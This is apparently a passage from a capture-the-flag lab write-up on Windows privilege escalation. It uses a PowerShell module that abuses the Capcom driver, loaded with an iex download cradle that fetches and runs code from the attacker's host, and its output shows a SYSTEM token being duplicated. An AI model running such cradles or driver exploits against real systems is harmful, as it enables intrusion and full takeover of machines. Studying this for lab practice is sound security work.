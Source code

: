 ```
# Minimum version of the Windows PowerShell engine required by this module
PowerShellVersion = '2.0'

# Architecture is x64 only
ProcessorArchitecture = 'AMD64'

# Functions to export from this module
FunctionsToExport = @(
    'Capcom-ElevatePID',
    'Capcom-BypassDriverSigning'
)
}

```

There are two exported functions. I’ll call `Capcom-ElevatePID` once I get the PowerShell into my current session.

#### Run It

Now I’ll use the PowerShell `iex` cradle to load all that PowerShell into my current session:

```

PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.6/capcom-all')

```

Now it’s as simple as running `capcom-elevatepid`:

```

PS C:\> capcom-elevatepid

[+] SYSTEM Token: 0xFFFFC0001B60777C
[+] Found PID: 5096
[+] PID token: 0xFFFFC0001D8A1066
[!] Duplicating SYSTEM token!

PS C:\programdata> whoami
nt authority\system

```

## Root Flag

### Enumeration

On getting to the Administrator’s desktop, there’s no `root.txt`, but two executable files:

```

PS C:\users\administrator\desktop> ls

    Directory: C:\users\administrator\desktop

Mode                LastWriteTime     Length Name                              
----                -------------     ------ ----                              
-a---        24/10/2017     17:02       9216 checkdll.dll                      
-a---        08/01/2018     22:34       9728 root.exe   

```

